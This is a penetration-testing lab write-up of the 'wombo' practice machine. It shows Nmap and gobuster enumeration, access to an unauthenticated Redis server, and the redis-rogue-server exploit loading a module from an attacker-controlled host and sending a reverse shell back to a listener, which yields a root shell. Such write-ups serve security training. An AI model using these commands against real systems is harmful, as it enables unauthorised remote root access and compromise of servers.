


Writeup by wook413
As usual, I began by running three Nmap scans. The first was a comprehensive TCP scan of all 65,535 ports to identify open ports. The second scan focused on service detection and fingerprinting for those identified ports, while the third covered the top 10 UDP ports.
x
┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-06 02:44 UTCNmap scan report for 192.168.107.69Host is up (0.045s latency).Not shown: 65529 filtered tcp ports (no-response), 1 closed tcp port (reset)Some closed ports may be reported as filtered due to --defeat-rst-ratelimitPORT STATE SERVICE22/tcp open ssh80/tcp open http6379/tcp open redis8080/tcp open http-proxy27017/tcp open mongod
Nmap done: 1 IP address (1 host up) scanned in 43.89 secondsxxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sC -sV -p 22,80,6379,8080,27017 Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-06 02:47 UTCNmap scan report for 192.168.107.69Host is up (0.051s latency).
PORT STATE SERVICE VERSION22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)| ssh-hostkey: | 2048 09:80:39:ef:3f:61:a8:d9:e6:fb:04:94:23:c9:ef:a8 (RSA)| 256 83:f8:6f:50:7a:62:05:aa:15:44:10:f5:4a:c2:f5:a6 (ECDSA)|_ 256 1e:2b:13:30:5c:f1:31:15:b4:e8:f3:d2:c4:e8:05:b5 (ED25519)80/tcp open http nginx 1.10.3|_http-title: Welcome to nginx!|_http-server-header: nginx/1.10.36379/tcp open redis Redis key-value store 5.0.98080/tcp open http-proxy|_http-title: Home | NodeBB| fingerprint-strings: | FourOhFourRequest: | HTTP/1.1 404 Not Found| X-DNS-Prefetch-Control: off| X-Frame-Options: SAMEORIGIN| X-Download-Options: noopen| X-Content-Type-Options: nosniff| X-XSS-Protection: 1; mode=block| Referrer-Policy: strict-origin-when-cross-origin| X-Powered-By: NodeBB| set-cookie: _csrf=QW2SQlpAniUXEJt0tPLJwivf; Path=/| Content-Type: text/html; charset=utf-8| Content-Length: 11098| ETag: W/"2b5a-1Cgua61cRjfEtaJy+HecOKbrR2w"| Vary: Accept-Encoding| Date: Fri, 06 Feb 2026 02:48:07 GMT| Connection: close| <!DOCTYPE html>| <html lang="en-GB" data-dir="ltr" style="direction: ltr;" >| <head>| <title>Not Found | NodeBB</title>| <meta name="viewport" content="width=device-width, initial-scale=1.0" />| <meta name="content-type" content="text/html; charset=UTF-8" />| <meta name="apple-mobile-web-app-capable" content="yes" />| <meta name="mobile-web-app-capable" content="yes" />| <meta property="og:site_n| GetRequest: | HTTP/1.1 200 OK| X-DNS-Prefetch-Control: off| X-Frame-Options: SAMEORIGIN| X-Download-Options: noopen| X-Content-Type-Options: nosniff| X-XSS-Protection: 1; mode=block| Referrer-Policy: strict-origin-when-cross-origin| X-Powered-By: NodeBB| set-cookie: _csrf=5HOh1X5EAS218tdlDucoP14a; Path=/| Content-Type: text/html; charset=utf-8| Content-Length: 18181| ETag: W/"4705-6B1tyZCJ0ZD4+tnf8QPaqyjrPP0"| Vary: Accept-Encoding| Date: Fri, 06 Feb 2026 02:48:06 GMT| Connection: close| <!DOCTYPE html>| <html lang="en-GB" data-dir="ltr" style="direction: ltr;" >| <head>| <title>Home | NodeBB</title>| <meta name="viewport" content="width=device-width, initial-scale=1.0" />| <meta name="content-type" content="text/html; charset=UTF-8" />| <meta name="apple-mobile-web-app-capable" content="yes" />| <meta name="mobile-web-app-capable" content="yes" />| <meta property="og:site_name" content| HTTPOptions: | HTTP/1.1 200 OK| X-DNS-Prefetch-Control: off| X-Frame-Options: SAMEORIGIN| X-Download-Options: noopen| X-Content-Type-Options: nosniff| X-XSS-Protection: 1; mode=block| Referrer-Policy: strict-origin-when-cross-origin| X-Powered-By: NodeBB| Allow: GET,HEAD| Content-Type: text/html; charset=utf-8| Content-Length: 8| ETag: W/"8-ZRAf8oNBS3Bjb/SU2GYZCmbtmXg"| Vary: Accept-Encoding| Date: Fri, 06 Feb 2026 02:48:07 GMT| Connection: close| GET,HEAD| RTSPRequest: | HTTP/1.1 400 Bad Request|_ Connection: close| http-robots.txt: 3 disallowed entries |_/admin/ /reset/ /compose27017/tcp open mongodb MongoDB 4.1.1 - 5.0| mongodb-databases: | code = 13| codeName = Unauthorized| ok = 0.0|_ errmsg = command listDatabases requires authentication| mongodb-info: | MongoDB Build info| versionArray| 0 = 4| 3 = 0| 2 = 18| 1 = 0| javascriptEngine = mozjs| ok = 1.0| gitVersion = 6883bdfb8b8cff32176b1fd176df04da9165fd67| version = 4.0.18| openssl| running = OpenSSL 1.1.0l 10 Sep 2019| compiled = OpenSSL 1.1.0l 10 Sep 2019| storageEngines| 0 = devnull| 3 = wiredTiger| 2 = mmapv1| 1 = ephemeralForTest| bits = 64| debug = false| maxBsonObjectSize = 16777216| allocator = tcmalloc| sysInfo = deprecated| buildEnvironment| cc = /opt/mongodbtoolchain/v2/bin/gcc: gcc (GCC) 5.4.0| linkflags = -pthread -Wl,-z,now -rdynamic -Wl,--fatal-warnings -fstack-protector-strong -fuse-ld=gold -Wl,--build-id -Wl,--hash-style=gnu -Wl,-z,noexecstack -Wl,--warn-execstack -Wl,-z,relro| cxx = /opt/mongodbtoolchain/v2/bin/g++: g++ (GCC) 5.4.0| ccflags = -fno-omit-frame-pointer -fno-strict-aliasing -ggdb -pthread -Wall -Wsign-compare -Wno-unknown-pragmas -Winvalid-pch -Werror -O2 -Wno-unused-local-typedefs -Wno-unused-function -Wno-deprecated-declarations -Wno-unused-but-set-variable -Wno-missing-braces -fstack-protector-strong -fno-builtin-memcmp| distmod = debian92| target_os = linux| cxxflags = -Woverloaded-virtual -Wno-maybe-uninitialized -std=c++14| target_arch = x86_64| distarch = x86_64| modules| Server status| code = 13| codeName = Unauthorized| ok = 0.0|_ errmsg = command serverStatus requires authentication1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at <https://nmap.org/cgi-bin/submit.cgi?new-service> :SF-Port8080-TCP:V=7.95%I=7%D=2/6%Time=69855666%P=x86_64-pc-linux-gnu%r(GetSF:Request,1044,"HTTP/1\\.1\\x20200\\x20OK\\r\\nX-DNS-Prefetch-Control:\\x20off\\SF:r\\nX-Frame-Options:\\x20SAMEORIGIN\\r\\nX-Download-Options:\\x20noopen\\r\\nXSF:-Content-Type-Options:\\x20nosniff\\r\\nX-XSS-Protection:\\x201;\\x20mode=blSF:ock\\r\\nReferrer-Policy:\\x20strict-origin-when-cross-origin\\r\\nX-PoweredSF:-By:\\x20NodeBB\\r\\nset-cookie:\\x20_csrf=5HOh1X5EAS218tdlDucoP14a;\\x20PatSF:h=/\\r\\nContent-Type:\\x20text/html;\\x20charset=utf-8\\r\\nContent-Length:\\SF:x2018181\\r\\nETag:\\x20W/\\"4705-6B1tyZCJ0ZD4\\+tnf8QPaqyjrPP0\\"\\r\\nVary:\\xSF:20Accept-Encoding\\r\\nDate:\\x20Fri,\\x2006\\x20Feb\\x202026\\x2002:48:06\\x20SF:GMT\\r\\nConnection:\\x20close\\r\\n\\r\\n<!DOCTYPE\\x20html>\\r\\n<html\\x20lang=SF:\\"en-GB\\"\\x20data-dir=\\"ltr\\"\\x20style=\\"direction:\\x20ltr;\\"\\x20\\x20>\\SF:r\\n<head>\\r\\n\\t<title>Home\\x20\\|\\x20NodeBB</title>\\r\\n\\t<meta\\x20name=\\SF:"viewport\\"\\x20content=\\"width=device-width,\\x20initial-scale=SF:;1\\.0\\"\\x20/>\\n\\t<meta\\x20name=\\"content-type\\"\\x20content=\\"text/html;SF:\\x20charset=UTF-8\\"\\x20/>\\n\\t<meta\\x20name=\\"apple-mobile-web-app-capabSF:le\\"\\x20content=\\"yes\\"\\x20/>\\n\\t<meta\\x20name=\\"mobile-web-app-capableSF:\\"\\x20content=\\"yes\\"\\x20/>\\n\\t<meta\\x20property=\\"og:site_name\\"\\x20coSF:ntent")%r(HTTPOptions,1BF,"HTTP/1\\.1\\x20200\\x20OK\\r\\nX-DNS-Prefetch-ConSF:trol:\\x20off\\r\\nX-Frame-Options:\\x20SAMEORIGIN\\r\\nX-Download-Options:\\xSF:20noopen\\r\\nX-Content-Type-Options:\\x20nosniff\\r\\nX-XSS-Protection:\\x20SF:1;\\x20mode=block\\r\\nReferrer-Policy:\\x20strict-origin-when-cross-originSF:\\r\\nX-Powered-By:\\x20NodeBB\\r\\nAllow:\\x20GET,HEAD\\r\\nContent-Type:\\x20tSF:ext/html;\\x20charset=utf-8\\r\\nContent-Length:\\x208\\r\\nETag:\\x20W/\\"8-ZRSF:Af8oNBS3Bjb/SU2GYZCmbtmXg\\"\\r\\nVary:\\x20Accept-Encoding\\r\\nDate:\\x20FriSF:,\\x2006\\x20Feb\\x202026\\x2002:48:07\\x20GMT\\r\\nConnection:\\x20close\\r\\n\\rSF:\\nGET,HEAD")%r(RTSPRequest,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nCoSF:nnection:\\x20close\\r\\n\\r\\n")%r(FourOhFourRequest,15B0,"HTTP/1\\.1\\x20404SF:\\x20Not\\x20Found\\r\\nX-DNS-Prefetch-Control:\\x20off\\r\\nX-Frame-Options:\\SF:x20SAMEORIGIN\\r\\nX-Download-Options:\\x20noopen\\r\\nX-Content-Type-OptionSF:s:\\x20nosniff\\r\\nX-XSS-Protection:\\x201;\\x20mode=block\\r\\nReferrer-PoliSF:cy:\\x20strict-origin-when-cross-origin\\r\\nX-Powered-By:\\x20NodeBB\\r\\nseSF:t-cookie:\\x20_csrf=QW2SQlpAniUXEJt0tPLJwivf;\\x20Path=/\\r\\nContent-Type:SF:\\x20text/html;\\x20charset=utf-8\\r\\nContent-Length:\\x2011098\\r\\nETag:\\x2SF:0W/\\"2b5a-1Cgua61cRjfEtaJy\\+HecOKbrR2w\\"\\r\\nVary:\\x20Accept-Encoding\\r\\SF:nDate:\\x20Fri,\\x2006\\x20Feb\\x202026\\x2002:48:07\\x20GMT\\r\\nConnection:\\xSF:20close\\r\\n\\r\\n<!DOCTYPE\\x20html>\\r\\n<html\\x20lang=\\"en-GB\\"\\x20data-diSF:r=\\"ltr\\"\\x20style=\\"direction:\\x20ltr;\\"\\x20\\x20>\\r\\n<head>\\r\\n\\t<titlSF:e>Not\\x20Found\\x20\\|\\x20NodeBB</title>\\r\\n\\t<meta\\x20name=\\"viewport\\"\\SF:x20content=\\"width=device-width,\\x20initial-scale=1\\.0\\"\\x20/SF:>\\n\\t<meta\\x20name=\\"content-type\\"\\x20content=\\"text/html;\\x20charset=SF:UTF-8\\"\\x20/>\\n\\t<meta\\x20name=\\"apple-mobile-web-app-capable\\"\\x20contSF:ent=\\"yes\\"\\x20/>\\n\\t<meta\\x20name=\\"mobile-web-app-capable\\"\\x20contenSF:t=\\"yes\\"\\x20/>\\n\\t<meta\\x20property=\\"og:site_n");Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .Nmap done: 1 IP address (1 host up) scanned in 20.13 secondsxxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sU --top-ports 10 Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-06 03:08 UTCNmap scan report for 192.168.107.69Host is up (0.049s latency).
PORT STATE SERVICE53/udp open|filtered domain67/udp open|filtered dhcps123/udp open|filtered ntp135/udp open|filtered msrpc137/udp open|filtered netbios-ns138/udp open|filtered netbios-dgm161/udp open|filtered snmp445/udp open|filtered microsoft-ds631/udp open|filtered ipp1434/udp open|filtered ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 1.86 secondsPort 80 only hosted a default nginx page. I attempted directory brute-forcing using gobuster , but it yielded no results.

xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ gobuster dir -u <http://$IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt ===============================================================Gobuster v3.6by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)===============================================================[+] Url: <http://192.168.107.69>[+] Method: GET[+] Threads: 10[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt[+] Negative Status codes: 404[+] User Agent: gobuster/3.6[+] Timeout: 10s===============================================================Starting gobuster in directory enumeration mode===============================================================Progress: 4746 / 4747 (99.98%)===============================================================Finished===============================================================I found a NodeBB service running on port 8080. Running gobuster here was more successful, returning several interesting directories.

xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ gobuster dir -u <http://$IP:8080> -w /usr/share/seclists/Discovery/Web-Content/common.txt===============================================================Gobuster v3.6by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)===============================================================[+] Url: <http://192.168.107.69:8080>[+] Method: GET[+] Threads: 10[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt[+] Negative Status codes: 404[+] User Agent: gobuster/3.6[+] Timeout: 10s===============================================================Starting gobuster in directory enumeration mode===============================================================/.well-known/change-password (Status: 302) [Size: 39] [--> /me/edit/password]/ADMIN (Status: 302) [Size: 36] [--> /login?local=1]/Admin (Status: 302) [Size: 36] [--> /login?local=1]/Login (Status: 200) [Size: 11618]/admin (Status: 302) [Size: 36] [--> /login?local=1]/api (Status: 200) [Size: 3255]/assets (Status: 301) [Size: 179] [--> /assets/]/categories (Status: 200) [Size: 18970]/chats (Status: 302) [Size: 28] [--> /login]/favicon.ico (Status: 200) [Size: 1150]/flags (Status: 500) [Size: 10870]/groups (Status: 302) [Size: 28] [--> /login][ERROR] Get "<http://192.168.107.69:8080/compose>": context deadline exceeded (Client.Timeout exceeded while awaiting headers)/login (Status: 200) [Size: 11618]/notifications (Status: 302) [Size: 28] [--> /login]/ping (Status: 200) [Size: 3]/popular (Status: 200) [Size: 18355]/recent (Status: 200) [Size: 17544]/register (Status: 200) [Size: 14357]/robots.txt (Status: 200) [Size: 111]/sitemap.xml (Status: 200) [Size: 307]/tags (Status: 302) [Size: 28] [--> /login]/top (Status: 200) [Size: 18180]/uploads (Status: 302) [Size: 52] [--> /assets/uploads/?v=7sgruj70sic]/users (Status: 302) [Size: 28] [--> /login]Progress: 4746 / 4747 (99.98%)===============================================================Finished===============================================================Before diving deeper into port 8080, I moved on to port 6379, where Redis was active. The server appeared to be misconfigured, allowing authentication without a username or password, which enabled me to run the info command.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop] └─$ redis-cli -h $IP 192.168.107.69:6379> info # Server redis_version:5.0.9 redis_git_sha1:00000000 redis_git_dirty:0 redis_build_id:85c881476bf91b2f redis_mode:standalone os:Linux 4.9.0-19-amd64 x86_64 arch_bits:64 multiplexing_api:epoll atomicvar_api:atomic-builtingcc_version:6.3.0 process_id:561 run_id:8f474d513d1bc4f73feb1b91c721a90c7a2d7d57tcp_port:6379 uptime_in_seconds:47643641 uptime_in_days:551 hz:10 configured_hz:10 lru_clock:8740876 executable:/usr/local/bin/redis-server config_file:/etc/redis/redis.conf.........I attempted the redis-rogue-server exploit, which I discovered through HackTricks and downloaded from the following repository: https://github.com/n0b0dyCN/redis-rogue-server
Initially, I opted for an interactive shell. However, for some reason, I was unable to cd into the /root directory when the whoami command revealed that I am indeed root .
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop/redis-rogue-server]└─$ python3 redis-rogue-server.py --rhost $IP --lhost 192.168.45.229 --lport 80/home/kali/Desktop/redis-rogue-server/redis-rogue-server.py:11: SyntaxWarning: invalid escape sequence '\\ ' | ___ \\ | (_) | ___ \\ / ___|______ _ _ ______ _____ | ___ \\ | (_) | ___ \\ / ___| | |_/ /___ __| |_ ___ | |_/ /___ __ _ _ _ ___ \\ `--. ___ _ ____ _____ _ __ | // _ \\/ _` | / __| | // _ \\ / _` | | | |/ _ \\ `--. \\/ _ \\ '__\\ \\ / / _ \\ '__|| |\\ \\ __/ (_| | \\__ \\ | |\\ \\ (_) | (_| | |_| | __/ /\\__/ / __/ | \\ V / __/ | \\_| \\_\\___|\\__,_|_|___/ \\_| \\_\\___/ \\__, |\\__,_|\\___| \\____/ \\___|_| \\_/ \\___|_| __/ | |___/ @copyright n0b0dy @ r3kapig
[info] TARGET 192.168.120.69:6379[info] SERVER 192.168.45.229:80[info] Setting master...[info] Setting dbfilename...[info] Loading module...[info] Temerory cleaning up...What do u want, [i]nteractive shell or [r]everse shell: i[info] Interact mode start, enter "exit" to quit.[<<] whoami[>>] rootI restarted the exploit and chose a reverse shell instead of the interactive one. This worked perfectly and granted me a full root shell.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop/redis-rogue-server]└─$ python3 redis-rogue-server.py --rhost $IP --lhost 192.168.45.229 --lport 80/home/kali/Desktop/redis-rogue-server/redis-rogue-server.py:13: SyntaxWarning: invalid escape sequence '\\ ' | ___ \\ | (_) | ___ \\ / ___|
______ _ _ ______ _____ | ___ \\ | (_) | ___ \\ / ___| | |_/ /___ __| |_ ___ | |_/ /___ __ _ _ _ ___ \\ `--. ___ _ ____ _____ _ __ | // _ \\/ _` | / __| | // _ \\ / _` | | | |/ _ \\ `--. \\/ _ \\ '__\\ \\ / / _ \\ '__|| |\\ \\ __/ (_| | \\__ \\ | |\\ \\ (_) | (_| | |_| | __/ /\\__/ / __/ | \\ V / __/ | \\_| \\_\\___|\\__,_|_|___/ \\_| \\_\\___/ \\__, |\\__,_|\\___| \\____/ \\___|_| \\_/ \\___|_| __/ | |___/ @copyright n0b0dy @ r3kapig (Fixed for Python3)
[info] TARGET 192.168.120.69:6379[info] SERVER 192.168.45.229:80[info] Setting master...[info] Setting dbfilename...[info] Loading module...[info] Temporary cleaning up...What do u want, [i]nteractive shell or [r]everse shell: r[info] Open reverse shell...Reverse server address: 192.168.45.229Reverse server port: 6379[info] Reverse shell payload sent.[info] Check at 192.168.45.229:6379[info] Unload module...rootxxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ python3 penelope.py -p 6379[+] Listening for reverse shells on 0.0.0.0:6379 → 127.0.0.1 • 192.168.136.128 • 172.20.0.1 • 172.17.0.1 • 192.168.45.229➤ 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)[+] Got reverse shell from wombo~192.168.120.69-Linux-x86_64 😍 Assigned SessionID <1>[+] Attempting to upgrade shell to PTY...[+] Shell upgraded successfully using /usr/bin/python3! 💪[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 [+] Logging to /home/kali/.penelope/sessions/wombo~192.168.120.69-Linux-x86_64/2026_02_07-18_05_34-694.log 📜──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────root@wombo:/# whoamirootroot@wombo:/# Found proof.txt
xxxxxxxxxxroot@wombo:/root# cat proof.txt2b7...